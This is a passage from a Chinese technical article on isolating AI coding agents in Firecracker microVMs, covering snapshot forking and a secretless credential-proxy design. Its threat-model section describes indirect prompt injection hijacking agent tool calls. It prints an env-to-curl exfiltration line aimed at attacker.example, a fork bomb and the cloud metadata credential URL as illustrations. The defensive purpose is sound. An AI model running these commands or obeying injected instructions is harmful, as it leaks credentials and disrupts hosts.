




> [!NOTE] 核心速览 (TL;DR)
> - **共享内核容器守不住 Agent 底线**：自主 Coding Agent、Computer-Use 智能体与强化学习（RL）Rollout 本质上是“高并发任意不可信代码执行器”。传统 `runc` Docker 容器与宿主机共享超过 350 个 Linux 系统调用，一旦遭遇内核提权（如 Dirty Pipe `CVE-2022-0847`）或运行时文件描述符泄漏（如 Leaky Vessels `CVE-2024-21626`），攻击者即可直接击穿宿主机边界。
> - **硬件虚拟化与原生编译 I/O 兼得**：gVisor (`runsc`) 通过用户态 Sentry 拦截系统调用缩小了宿主机攻击面，但在 `git checkout`、`npm install`、`cargo build` 等元数据密集型工作负载下存在显著的 VFS 路径解析与系统调用拦截损耗；**AWS Firecracker MicroVM** 基于 KVM (`/dev/kvm`) 硬件虚拟化运行独立 Guest 内核，以 `< 5 MiB` VMM 内存开销和约 `125 ms` 冷启动时间实现了完整硬件级隔离与原生内核态 I/O 吞吐。
> - **百毫秒内状态恢复与多路分叉（State Forking）**：借助 Firecracker 的 `/snapshot/create` 与 `/snapshot/load` 接口，配合 `MAP_PRIVATE` 页级写时复制（CoW）、`userfaultfd`（UFFD）远程按需缺页流式加载以及 `dm-thin` / XFS `reflink` 块级快照，预热后的 Python/Node/浏览器运行时可在 **15 ms 以内**瞬时唤醒，并支持蒙特卡洛树搜索（MCTS）与 RL 采样从同一检查点毫秒级分叉出数十个兄弟沙箱而不成倍消耗物理内存。
> - **无密钥沙箱（Secretless Sandbox）架构**：严禁将真实 API Key 或 GitHub Token 注入沙箱环境变量；生产架构通过宿主机 `virtio-vsock` 通道下发控制指令，并利用宿主机侧七层 Egress 凭证代填网关在虚拟机边界之外完成“幻影凭证（Phantom Token）”到真实 `Authorization` 头的透明替换，同时彻底封死 RFC1918 内网路由与云厂商元数据地址 `169.254.169.254`。

## 引言：当自主 Agent 拿到 `bash` 与 `python` 执行权，传统 Docker 容器为什么守不住底线？

在早期的对话式大模型应用中，模型输出仅仅是静态渲染在前端网页上的 Markdown 文本。然而随着 Coding Agent、Computer-Use 桌面智能体以及面向代码与终端任务的[环境缩放（Environment Scaling）](/articles/environment-scaling-agent-guide/)全面普及，大模型的角色已经发生了质变——它直接握有 `bash` 终端、`python` 解释器、无头浏览器乃至整套编译工具链的实时执行权。与此同时，在[基于 veRL 的分布式强化学习后训练](/articles/distributed-rl-post-training-verl-colocation/)流水线中，训练集群每秒钟都需要在数千个并发沙箱中执行模型自主采样生成的补丁代码与单元测试脚本，以计算可验证奖励（Verifiable Reward）。

一旦将业务视角切换到基础设施安全工程，你会发现**自主 Agent 平台在安全威胁模型上等同于一个向公网开放的远程任意代码执行（RCE-as-a-Service）集群**。无论你在上游设计了多么严密的[提示词工程防御边界](/articles/prompt-engineering-guide/)，只要 Agent 需要读取外部 GitHub Issue、解析第三方网页 DOM 或安装开源依赖包，攻击者就可以通过**间接提示词注入（Indirect Prompt Injection）**劫持 Agent 的工具调用序列。

许多工程团队的第一反应是：“把每个 Agent 会话放进一个无特权的 Docker 容器里不就安全了吗？”遗憾的是，正如我们在[Docker 内核第一性原理：Namespace、cgroups 与 OverlayFS](/articles/docker-internals-namespace-cgroups-overlayfs/)中所剖析的那样，标准 `runc` 容器并不是虚拟机，它只是一个被 Linux Namespace 遮蔽了视图、被 cgroups 限制了配额的普通宿主机进程。在多租户不可信代码执行场景下，传统容器面临四重致命威胁：

1. **庞大的共享内核系统调用攻击面**：x86_64 Linux 内核暴露了 **350 余个系统调用（Syscalls）**。即便启用了 Docker 默认的 `seccomp` 配置文件屏蔽掉约 44 个高危调用，容器内进程仍然可以直接触发宿主机内核中剩余 300 多个系统调用的复杂内核路径（包括 VFS、网络栈、`io_uring`、管道缓冲区等）。历史上无论是利用管道页缓存标志位未清零实现任意只读文件覆写的 **Dirty Pipe (`CVE-2022-0847`)**，还是利用 `runc` 内部文件描述符泄漏逃逸出容器根目录的 **Leaky Vessels (`CVE-2024-21626`)**，都证明了共享宿主机内核在零日漏洞面前的脆弱性。
2. **资源耗尽与内核态噪声邻居（Noisy Neighbor）冲击**：Agent 编写的缺陷代码或恶意脚本极易触发进程级 Fork 炸弹 `:(){ :|:& };:`、海量小文件 `inode` 耗尽，或高频触发页缓存脏页回写阻塞宿主机 I/O 队列。如果未严格收敛内核数据结构配额，单个失控容器足以拖垮整台百核物理节点的调度循环。
3. **环境变量与挂载凭据的瞬间外泄**：许多快速原型为了方便 Agent 调用外部服务（例如执行 `git push` 或调用第三方 API），直接通过 `docker run -e GITHUB_TOKEN=... -e OPENAI_API_KEY=...` 将高权限密钥塞入容器进程环境。一旦遭遇提示词注入，一行简单的 `env | base64 | curl -X POST https://attacker.example/collect -d @-` 就能在几毫秒内搬空所有生产凭据。
4. **云内网横向移动与 IMDS 元数据窃取**：默认桥接网络下，沙箱进程不仅可能扫描宿主所在 VPC 的私有网段（`10.0.0.0/8`、`172.16.0.0/12`、`192.168.0.0/16`）攻击内网 Redis 或数据库，更可以直接请求云厂商实例元数据服务（IMDS）地址 `http://169.254.169.254/latest/meta-data/iam/security-credentials/`，窃取宿主机绑定的 IAM 角色临时凭证。

因此，下一代企业级[工具调用与安全执行运行时](/articles/advanced-agent-tool-use-and-function-calling/)必须同时满足三个看似矛盾的工程指标：**硬件虚拟化级别的强安全隔离**、**数十毫秒级的瞬时环境克隆与回滚能力**，以及**凭证永不落入沙箱内存的零信任网络架构**。这正是 **AWS Firecracker MicroVM** 成为当代 AI Agent 基础设施事实标准的核心原因。

---

## 一、隔离技术光谱横评：Namespace/bwrap vs gVisor 用户态内核 vs Firecracker MicroVM 硬件虚拟化

在选型沙箱底座之前，架构师需要客观厘清当前主流隔离技术在操作系统栈中的真实边界。从最轻量的进程沙箱到完整的微虚拟机，业界主要存在四条技术路线：**Linux Namespace / Bubblewrap (`bwrap`)**、**gVisor (`runsc`) 用户态应用内核**、**Kata Containers** 以及 **Firecracker 原生 MicroVM**。我们在[Kubernetes 多安全沙箱运行时与节点内核调优](/articles/k8s-runtime-nri-kata-gvisor-kernel-tuning/)中曾从 K8s CRI 视角审视过容器运行时，本节我们直接深入到指令集拦截、系统调用转发与文件系统 I/O 链路进行底层拆解。



### 1.1 四大沙箱架构核心指标全景对比

为了避免脱离工作负载谈性能，下表汇总了四类隔离方案在安全边界、启动延迟、内存开销以及重度编译 I/O 场景下的真实工程表现：

| 评估维度 | Namespace / `runc` / `bwrap` | gVisor (`runsc` Sentry + Gofer) | Kata Containers (Cloud Hypervisor / QEMU) | Firecracker MicroVM (原生 API + Snapshot) |
| :--- | :--- | :--- | :--- | :--- |
| **核心隔离边界** | 宿主机共享内核（Namespace + cgroups + Seccomp） | 用户态 Go 虚拟内核（Sentry）拦截重构系统调用 | 硬件虚拟化（VT-x / AMD-V）+ 独立 Guest 内核 | 硬件虚拟化（VT-x / AMD-V）+ 极简 Rust VMM + 独立 Guest 内核 |
| **宿主机内核暴露面** | 高（约 300+ Syscalls 直通宿主机 Ring 0） | 低（Sentry 自身仅向宿主机发起约 50–70 个受限 Syscalls） | 极低（仅 KVM `/dev/kvm` 与精简虚拟设备接口） | 极低（移除 PCI/BIOS，仅保留 5 类极简设备模型与 `jailer` 秒级收敛） |
| **冷启动延迟** | `5 ~ 30 ms`（进程 `clone/exec` 开销） | `50 ~ 150 ms`（初始化 Sentry 与 Gofer 沙箱） | `150 ~ 500 ms`（视 VMM 裁剪与 OCI 挂载链路而定） | 冷启动 `< 125 ms`；**快照恢复 `< 15 ms`** |
| **单实例基础内存开销** | `< 2 MiB` | `15 ~ 30 MiB`（Sentry 运行时与 Go GC 元数据） | `30 ~ 100+ MiB`（含 `kata-agent` 与 PCI/ACPI 拓扑开销） | **VMM 开销 `< 5 MiB`**（加上精简 Guest 内核约 `30 ~ 64 MiB`） |
| **重度文件 I/O 与编译损耗** | 原生速度（接近 `0%` 损耗） | **中至高损耗（通常慢 `15% ~ 50%+`）** | 接近原生（块设备 VirtIO / `virtio-fs` 开销较小） | **接近原生**（Guest 内部自有 Page Cache 与原生 Ext4 VFS） |
| **系统调用兼容性** | 100% 兼容宿主机内核特性 | 存在边角差异（部分 `io_uring`、特殊 `ioctl`/BPF 受限） | 100% 标准 Linux 内核语义 | 100% 标准 Linux 内核语义（由 Guest 内核版本决定） |
| **多租户不可信代码评级** | 仅适合受信内部任务或最外层辅助包裹 | 适合网络/计算型无状态函数执行 | 适合标准 K8s Pod 级强隔离与 GPU VFIO 直通 | **Coding Agent、Computer-Use 与高频 RL Rollout 首选** |

### 1.2 为什么 gVisor 在 Coding Agent 的 `git` / `npm` / `cargo` 负载下会遭遇性能瓶颈？

不少团队最初使用 gVisor (`runsc`) 承载 Python 代码解释器，当 Agent 只执行纯内存矩阵运算（如简单的 `numpy` 脚本）时，gVisor 表现十分出色。但一旦业务升级为**全栈 Coding Agent**——需要克隆大型代码库（`git clone` / `git status`）、安装数万个零碎依赖文件（`npm install` / `pnpm` / `pip`）以及并行编译 Rust 或 C++ 项目（`cargo build` / `cmake`）——gVisor 的构建耗时往往比原生环境慢 **15% 到 50% 以上**，且宿主机 CPU 占用率急剧飙升。

根源在于系统调用拦截与用户态虚拟文件系统的结构性成本：

1. **百万级微小系统调用的上下文切换税**：一次中等规模的前端项目 `npm install` 会创建数万个目录与小文件，密集触发数百万次 `openat`、`newfstatat`、`getdents64`、`read`、`write`、`close` 与 `futex` 调用。在 gVisor 的默认 `Systrap`（或 `KVM`）拦截平台下，每一次系统调用都必须中断 Guest 应用线程，上下文切换进入用 Go 语言编写的 **Sentry** 进程，在用户态页表、虚拟文件描述符表和锁结构中完成校验与状态转换。
2. **元数据风暴（Metadata Churn）与 Gofer 协作开销**：为了防止 Sentry 直接触碰宿主机文件系统，gVisor 引入了独立的 **Gofer** 代理进程，通过定制二进制协议 **LISAFS**（取代了早期更慢的 9P 协议）访问宿主机文件。尽管现代 `runsc` 默认开启了 **Directfs** 优化——由 Gofer 预先向 Sentry 传递受限目录文件描述符，使 Sentry 能够直接执行基于句柄的 `openat` 操作——但在遍历深层 `node_modules` 目录树、高频更新 inode 元数据与处理写时复制层同步时，Sentry 的 VFS2 虚拟文件系统依然需要在 Go 运行时内维护复杂的路径缓存与互斥锁，无法直接复用 Linux 内核千锤百炼的原生地址空间页缓存（Page Cache）与 dentry 哈希表。

相比之下，**Firecracker MicroVM** 采取了截然不同的硬件分工哲学：
- 它利用物理 CPU 的 **Intel VT-x / AMD-V** 硬件虚拟化扩展与 Linux **KVM (`/dev/kvm`)**，直接运行一个真实、精简的 Guest Linux 内核。
- 当沙箱内的 `git`、`npm` 或 `rustc` 发起数百万次 `stat` 和小文件读写时，**所有系统调用全部在 Guest 自己的内核态（Guest Ring 0）闭环完成**，完全命中 Guest 内核原生的 dentry cache 和 Page Cache，根本不会触发昂贵的 VM-Exit 陷入宿主机！只有当真正需要刷盘或收发网络包时，才会通过极简的 `virtio-block` 或 `virtio-net` 环缓冲区（Ring Buffer）与宿主机交互。
- 同时，Firecracker 用内存安全的 Rust 从零构建，彻底砍掉了传统 QEMU 中冗余的 BIOS、PCI 总线、USB 控制器和 VGA 显卡仿真代码，仅保留 `virtio-net`、`virtio-block`、`virtio-vsock`、`virtio-rng`（可选熵源）与串口控制台，将每个微虚拟机的 VMM 进程自身内存开销死死压在 **`5 MiB` 以内**。

---

## 二、百毫秒恢复与状态分叉（State Forking）：Firecracker Snapshot + `userfaultfd` 按需缺页加载与 CoW 存储

尽管 Firecracker 能在 `< 125 ms` 内完成 Linux Guest 内核的冷启动，但对于 AI Agent 而言，“内核启动完毕”远不等于“工具环境就绪”。一个实用的 Agent 沙箱往往需要预装 Python 3.12 科学计算栈（PyTorch / Pandas）、Node.js 运行时、Playwright Chromium 浏览器进程乃至语言服务器（LSP）。如果每次会话都从冷启动走完进程初始化、动态链接库加载与浏览器冷启动，端到端首字工具延迟（Time-to-First-Tool-Execution）将劣化到 `3 ~ 8 秒`。

更关键的是，在前沿的[基于蒙特卡洛树搜索（MCTS）的 Agent 自我反思与纠错](/articles/agent-reflection-self-correction/)以及分布式 RL Rollout 架构中，Agent 在面对一个棘手的软件 Bug 时，并非单线串行试错，而是需要**在当前代码库与内存状态的精确时间点上，瞬间分叉（Fork）出 $N$ 个完全独立但初始状态一模一样的平行宇宙**，并行验证 8 种不同的代码重构方案，保留通过测试的分支并丢弃失败的分支。

Firecracker 的 **MicroVM Snapshot（快照）+ 按需缺页内存映射 + 写时复制（CoW）块存储**组合拳，将这一“时光倒流与平行宇宙分叉”变成了毫秒级的底层原语。

### 2.1 Firecracker 快照的物理构成与双模式恢复机制

对一台正在运行的 Firecracker MicroVM 创建快照分为两步：首先通过 `PATCH /vm` 将 vCPU 冻结为 `"Paused"` 状态，随后调用 `PUT /snapshot/create` 生成两个核心文件：
1. **`vm.state`（设备与寄存器状态文件，通常仅数十 KiB）**：序列化保存所有 vCPU 寄存器状态（通用寄存器、控制寄存器、MSR、TSC 偏移）、KVM 中断控制器（irqchip）状态以及 VirtIO 设备的环形队列游标。
2. **`vm.mem`（客户机物理内存镜像，大小等于配置的 `mem_size_mib`，如 `2 GiB`）**：完整保存暂停瞬间 Guest 物理内存的原始字节阵列——此时 Python 解释器、预导入的重型库乃至已打开的 Chromium 页面均已驻留在这些内存页中。

如果在恢复快照（`PUT /snapshot/load`）时把 `2 GiB` 的 `vm.mem` 全量从磁盘读入物理内存，仅 NVMe 顺序读取（按 `4 GB/s` 估算）就要消耗 `500 ms`，彻底失去毫秒级弹性。为此，Firecracker 在 `mem_backend` 中设计了两种惰性加载引擎：



#### 模式一：`backend_type: "File"`（本地 `mmap(MAP_PRIVATE)` 页级写时复制）
当 `vm.mem` 已经缓存在宿主机本地 NVMe 或内核 Page Cache 中时，指定 `"backend_type": "File"`，Firecracker 仅对 `vm.mem` 执行一次 `mmap(..., PROT_READ | PROT_WRITE, MAP_PRIVATE, fd, 0)` 系统调用：
- **恢复耗时与内存大小脱钩**：`mmap` 仅在宿主机内核中建立虚拟内存区域（VMA）结构体，**在 `PUT /snapshot/load` 阶段读取的物理内存字节数为 0**！反序列化 `20 KiB` 的 `vm.state` 并恢复 vCPU 运行通常仅需 **`3 ~ 12 ms`**。
- **跨沙箱物理内存零拷贝共享**：当同一台宿主机从同一个 `vm.mem` 母版分叉出 $N$ 个兄弟 MicroVM 时，所有未修改的代码段、Python 字节码与共享库物理页在宿主机内核 Page Cache 中**全局只存一份**。只有当第 $i$ 个沙箱改写了某个 `4 KiB` 内存页时，宿主机硬件 MMU 才会触发写保护缺页异常（Copy-on-Write Fault），为该沙箱单独分配一个新的 `4 KiB` 匿名物理页。

#### 模式二：`backend_type: "Uffd"`（Linux `userfaultfd` 用户态按需缺页拦截）
在大规模无服务器调度池中，用户的自定义环境快照可能高达数 GiB 且存储在远端对象存储或分布式缓存池中。若等待整个 `2 GiB` 的 `vm.mem` 下载到本地磁盘再启动沙箱，冷节点调度延迟仍高达数秒。
启用 `"backend_type": "Uffd"` 后，`backend_path` 指向一个宿主机 Unix Domain Socket（如 `/run/uffd.sock`）：
1. Firecracker 启动后为客户机内存区间注册 `userfaultfd` 描述符，并通过 Unix Socket 的 `SCM_RIGHTS` 辅助消息将该描述符移交给外部用户态 **UFFD Handler 守护进程**。
2. MicroVM 立即恢复运行。当 Guest vCPU 访问尚未就绪的内存页时，宿主机内核暂停当前缺页 vCPU 线程，向 UFFD Handler 发送包含精确故障地址的 `uffd_msg` 事件。
3. UFFD Handler 立即从远端缓存或对象存储执行高并发 Range 拉取（通常会结合历史访问轨迹做 `256 KiB ~ 2 MiB` 的空间局部性预读），随后调用 `ioctl(uffd, UFFDIO_COPY, ...)`（对于全零页则调用更轻量的 `UFFDIO_ZEROPAGE`）将物理页原子填入客户机地址空间并唤醒 vCPU。统计表明，大多数 Agent 任务在完整生命周期内实际触碰的活跃工作集（Working Set）仅占分配内存的 `10% ~ 25%`，UFFD 使得跨节点快照也具备了百毫秒内首指令响应能力。

### 2.2 根文件系统（Rootfs）的块级写时复制设计

仅有内存的 CoW 还不够——如果两个分叉出来的 MicroVM 挂载同一个底层可写 `rootfs.ext4` 文件，它们对文件系统的写入会互相踩踏并立刻引发 Guest 内核的 Ext4 元数据损坏崩溃！因此，磁盘层必须与内存层同步实施毫秒级 CoW 克隆，生产界主要有三种成熟方案：

1. **Device Mapper Thin Provisioning (`dm-thin`)**：在宿主机 LVM / 裸 NVMe 分区上创建 `thin-pool`，将黄金镜像写入只读母卷（Origin Thin Volume）。每次唤醒或分叉沙箱时，通过 `dmsetup message` 在毫秒级创建具备独立设备号的可写 Thin Snapshot 块设备（如 `/dev/mapper/fc-snap-8841`）挂载给 Firecracker。块级隔离彻底，支持精确限制单沙箱写入配额，是 `firecracker-containerd` 等重度多租户底座的经典选择。
2. **XFS / Btrfs Extent 级 Reflink 克隆（`cp --reflink=always`）**：在格式化为 `mkfs.xfs -m reflink=1`（现代主流发行版默认开启）的宿主机分区上，执行 `cp --reflink=always base_rootfs.ext4 vm_8841.ext4`。该操作仅复制文件的 inode 与 extent 元数据指针，耗时在 **`1 ~ 3 ms`** 量级，不拷贝任何物理数据块；直到 Guest 修改特定磁盘块时，XFS 文件系统才会在后台按需分配新块。工程运维复杂度极低，非常适合高吞吐 Agent 沙箱池。
3. **只读 SquashFS + Guest 内 OverlayFS**：宿主机将高压缩率的 `rootfs.squashfs` 以 `"is_read_only": true` 挂载给所有沙箱共享，同时挂载一块极小的稀疏空白 `scratch.ext4`（或直接使用限制大小的 `tmpfs`），由 Guest 启动早期的 `init` 脚本通过 `mount -t overlay` 合并为可写根分区。

### 2.3 MCTS 树搜索与 RL Rollout 状态分叉的内存与延迟数学建模

让我们对上述架构的工程收益做一次严谨的定量核算。假设在一次 MCTS 代码修复搜索或 GRPO 组相对策略优化采样（组大小 $N = 16$）中，单个 Agent 环境配置内存上限为 $M_{\text{cfg}} = 2048\text{ MiB}$，母版快照中已加载的活跃驻留工作集为 $M_{\text{shared}} = 640\text{ MiB}$，Firecracker VMM 进程与内核结构开销为 $M_{\text{vmm}} \approx 4.5\text{ MiB}$。在单轮测试执行期间，第 $i$ 个平行分支因修改代码和运行单测新产生的私有脏页数量为 $\Delta P_i$（假设平均产生 $24,576$ 个 `4 KiB` 脏页，即 $96\text{ MiB}$ 增量写入）。

若采用传统的独立冷启动或全量拷贝模式，$N$ 个并发环境的物理内存峰值占用为 $N \cdot (M_{\text{shared}} + 96\text{ MiB}) = 16 \times 736 = 11,776\text{ MiB}$。而在 Firecracker `MAP_PRIVATE` 快照分叉架构下，$N$ 个并发沙箱的总物理内存消耗 $M_{\text{total}}(N)$ 严格遵循：

$$M_{\text{total}}(N) = M_{\text{shared}} + \sum_{i=1}^{N} \left( M_{\text{vmm}} + \Delta P_i \cdot 4\text{ KiB} \right)$$

代入上述生产典型参数计算：

$$M_{\text{total}}(16) = 640\text{ MiB} + 16 \times \left( 4.5\text{ MiB} + 96\text{ MiB} \right) = 640\text{ MiB} + 1608\text{ MiB} = 2248\text{ MiB} \approx 2.20\text{ GiB}$$

这意味着**物理内存效率直接提升了 $5.2\times$ 以上**，单台 `256 GiB` 内存的裸金属节点即可轻松支撑上千个并发 RL Rollout 微虚拟机分支！

同理，从快照唤醒到首条 Agent 工具命令真正执行完毕前的恢复延迟 $T_{\text{ready}}$ 可分解为：

$$T_{\text{ready}} = T_{\text{vmm\_spawn}} + T_{\text{vmstate\_load}} + K_{\text{hot}} \cdot t_{\text{pf}}$$

其中 $T_{\text{vmm\_spawn}} \approx 3\text{ ms}$ 为 `jailer` 与 Firecracker 进程初始化耗时，$T_{\text{vmstate\_load}} \approx 2\text{ ms}$ 为反序列化寄存器与设备环状态耗时，$K_{\text{hot}}$ 为唤醒后首次 `vsock` 通信所触碰的活跃页数（通常仅 `500 ~ 1500` 页），本地 Page Cache 命中的软缺页处理时间 $t_{\text{pf}} \approx 1.5 \sim 3\ \mu\text{s}$。因此端到端唤醒就绪时间稳定收敛在 **`7 ~ 12 ms`** 区间内。

---

## 三、零信任网络与“无密钥沙箱”（Secretless Sandbox）：`virtio-vsock` 通信与 Egress 凭证代填网关

解决了算力与文件系统的强隔离后，许多 Agent 平台依然倒在了第二个致命盲区上：**如何在不向沙箱暴露真实凭据的前提下，允许沙箱内的代码与受保护的外部系统（如私有 Git 仓库、大模型网关、[MCP 外部工具服务端](/articles/mcp-guide/)或制品仓库）安全通信？**

### 3.1 铁律：永远不要将真实密钥放入沙箱内存或环境变量

在传统微服务开发中，通过环境变量传递 `GITHUB_TOKEN`、`AWS_SECRET_ACCESS_KEY` 或 `OPENAI_API_KEY` 是天经地义的做法。但在 AI Agent 沙箱中，这是一条**绝对不可逾越的安全红线**：
- 沙箱内部运行的代码是由概率性大模型实时生成的，且完全受外部不可信输入（如用户上传的文档、爬取的第三方网页、开源仓库里的恶意 `Makefile` 或 `conftest.py`）影响。
- 只要密钥字节曾经进入过 Guest MicroVM 的环境变量、配置文件或进程堆内存，沙箱内的任意子进程都可以通过读取 `/proc/self/environ`、`/proc/<pid>/mem` 或直接调用 `os.environ` 将其捕获，并夹带在 DNS 查询（DNS Tunneling）或白名单域名的 URL 参数中外传。

正确的解法是**无密钥沙箱（Secretless Sandbox）模式**：沙箱内部只允许持有毫无价值的会话级占位符（Phantom Token，如 `fc_phantom_gh_9f8a7b`），真实的鉴权凭据永远只驻留在宿主机受信任控制平面的内存保险箱中。



### 3.2 控制面与数据面彻底解耦：`virtio-vsock` 零网络控制通道

在许多极高安全等级的代码解释器（例如纯离线数据分析与算法评测沙箱）中，MicroVM 甚至**完全不需要挂载 `virtio-net` 网卡**！没有网卡意味着 Guest 内核连 TCP/IP 协议栈的外部路由都不存在，从物理上消灭了端口扫描、DDoS 肉鸡与数据外泄的可能。

那么宿主机编排器如何向“断网”的 MicroVM 发送待执行的 Python 代码并实时流式读取 `stdout`/`stderr`？答案正是 **`virtio-vsock`（Virtual Socket）**：
- `virtio-vsock` 是基于 VirtIO 共享内存环的宿主机—客户机直连套接字协议族（Linux `AF_VSOCK`），无需配置 IP 地址、MAC 地址、ARP 表或路由表。
- 在 Guest 内部，轻量级守护进程（通常是用 Rust 或 Go 静态编译的 `guest-agent`，体积不足 `3 MiB`）直接监听 `AF_VSOCK` 地址族的指定端口（例如 CID 为 `VMADDR_CID_ANY`，端口 `5000`）。
- 在宿主机侧，Firecracker 没有强迫业务进程直接操作内核全局 `vhost-vsock` 命名空间，而是巧妙地将该 MicroVM 的 `vsock` 设备映射为一个宿主机本地的 **Unix Domain Socket 文件**（配置项 `uds_path`，如 `/srv/jailer/firecracker/vm-01/root/run/v.sock`）。
- **握手机制细节**：当宿主机 Python 调度器连接上 `v.sock` 后，只需发送一行纯文本握手指令 `CONNECT 5000\n`；Firecracker 内部完成与客户机 `AF_VSOCK` 端口 `5000` 的通道桥接，并立即回复一行 `OK <host_side_port>\n`（例如 `OK 10524\n`）。握手完成后，该 Unix Socket 即退化为一条零延迟、高吞吐的全双工字节流管道，可直接承载 JSON-RPC 或 gRPC 流！

### 3.3 宿主机 L7 Egress 凭证代填网关与网络封锁纵深防御

当 Coding Agent 确实需要拉取公网依赖包（`pypi.org`、`registry.npmjs.org`）或代表用户向指定 GitHub 仓库提交 PR 时，我们才按需挂载限速的 `virtio-net` TAP 设备，并实施严苛的三层零信任网络管控：

